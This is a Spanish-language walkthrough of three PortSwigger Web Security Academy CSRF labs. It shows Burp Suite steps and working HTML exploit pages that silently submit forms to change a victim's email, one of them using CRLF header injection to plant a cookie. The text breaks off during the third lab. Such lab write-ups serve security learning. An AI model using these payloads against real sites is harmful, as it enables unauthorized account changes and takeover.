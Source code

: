 ### [CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)

Elegimos una de las credenciales que da el laboratorio, nos autenticamos, y vamos a la sección Change email. Escribimos un email en el input y con el interceptor de burp activo hacemos click en Update email, copiamos el csrf de la petición interceptada y la droppeamos.
Abrimos el laboratorio en una ventana de incógnito (copiar y pegar la misma url que la del laboratorio en marcha) y nos autenticamos con las otras credenciales provistas. Repetimos el procedimiento de la sección Change email con este usuario, pero ahora mandamos la petición interceptada al repeater. En el parámetro csrf de esta petición, pegamos el csrf que copiamos de la petición del usuario anterior, y vemos que al enviarla la request es aceptada.

#### Solución:

Para resolver este laboratorio, completar lo siguiente con la url del mismo, y en el value del input correspondiente al csrf pegamos el token del otro usuario.

```html
<form method="POST" action="https://ac201f8c1ff939c1805b0eba00ae0017.web-security-academy.net/email/change-email">
     <input type="hidden" name="email" value="alguien@algo.com">
     <input type="hidden" name="csrf" value="pqQ4gmnNBtEPeGsFqDubfOTdqNEzhl7E">
</form>
<script>
      document.forms[0].submit();
</script>
```

### [CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)

Caso muy similar al anterior, pero se explota la falta de protección csrf en la función de búsqueda para inyetar cookies en el navegaror de la víctima

#### Solución:

```html
<form method="POST" action="https://ac0f1f011f77ebbc80c6239100e400e0.web-security-academy.net/email/change-email">
     <input type="hidden" name="email" value="algo@mail.com">
     <input type="hidden" name="csrf" value="AC99lyKRB1kwqqNclxVT71NsvOYkhcjv">
</form>
<img src="https://ac0f1f011f77ebbc80c6239100e400e0.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=bPn9hLl0tvfI5hmsh7vnKuFh0auOpLjP" onerror="document.forms[0].submit()">
```

### [CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)

Autenticados en el laboratorio, ejecutamos la funcionalidad Change Email interceptando la request con burpsuite, y cambiando los valores del csrf del body y el de la cookie csrf, vemos que la validación simplemente consiste en comparar que un sea igual que el otro.
Caso muy similar al anterior, también se explota la falta de protección csrf en la función de búsqueda para inyetar cookies en el navegaror de la víctima
